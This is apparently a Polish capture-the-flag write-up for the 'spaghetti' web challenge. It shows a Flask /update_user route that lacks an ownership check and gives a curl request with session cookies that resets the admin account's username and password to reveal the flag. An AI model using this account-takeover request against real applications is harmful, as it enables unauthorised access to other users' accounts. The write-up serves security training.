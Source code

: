 # spaghetti
![](cc6c252c8521d8bc09cb8a0c88ef5bb6)

Jak opis mówi należy dostać do notatek admina, aby uzyskać flagę.
Potwierdzenie znajduje się w pliku "init.sql"
```
INSERT INTO users (username, password_hash) VALUES ('admin', '61adb00353ee34dfecf60baf39678aedfc730cfbd5128f64b21abd34c8ce6e63');
INSERT INTO notes (user_id, content) VALUES (1, 'WSIZ{fake_flag_for_testing}')
```

Po utworzeniu własnej instacji, zarejestrowaniu oraz zalogowaniu się, czas przeanalizować kod "main.py".
Błąd zostaje znaleziony w tym fragmencie:
```
@app.route('/update_user', methods=['POST'])
def update_user():
    if 'user_id' not in session:
        return jsonify({'message': 'Unauthorized'}), 401

    data = request.get_json()
    user = User(**data)
    res = user.save()
```

Kod nie sprawdza, kto wysyła zapytanie, umożliwiając dowolnemu zalogowanemu użytkownikowi zmienić nazwę użytkownikowi i hasło dowolnego zarejestrowanego użytkownika.

Po wykonaniu `curl 'http://challenges.wsi.edu.pl:6049/update_user' -X POST -H 'Cookie: instance_id=429ce18f7c9aaf3e2b44bd61a0090ff8; session=eyJ1c2VyX2lkIjoyfQ.ZXMXDg.1qUdPujY02Dnfiq4ff7s53W51RY' -H 'Content-Type: application/json' --data-raw '{"id": 1, "username": "b", "password": "b"}'` uzyskujemy odpowiedź `{ "message": "User updated successfully" }`.
Po zalogowaniu się na podane dane w zapytaniu, wyświetla się flaga będącą notatką admina.

Flaga: `WSIZ{th3_fix3d_sp4gh3tti}`
